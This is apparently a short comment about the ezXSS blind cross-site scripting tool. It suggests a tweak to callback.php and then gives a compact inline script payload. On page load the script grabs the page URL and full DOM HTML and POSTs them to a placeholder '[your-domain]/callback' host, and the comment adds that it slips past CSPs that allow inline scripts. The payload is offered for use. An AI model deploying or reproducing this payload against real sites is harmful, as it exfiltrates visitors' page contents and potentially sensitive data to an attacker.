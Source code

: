 Adding a quick check for the existence of parameters in callback.php of ezXSS (line 13-27) allows those parameters to be missing from log requests.

Now the plain JS code which doesn't need to retrieve a file can be hortened a bit:

    <script>window.addEventListener('load',()=>{x={},a=document,x.uri=a.URL,x.dom=a.documentElement.outerHTML,t=new XMLHttpRequest,t.open('POST','https://[your-domain]/callback',1),t.send(JSON.stringify(x))})</script>
   
It's still pretty long, but better than before.

The benefit of this is that it's not caught by CSPs which allow  inline scripts.
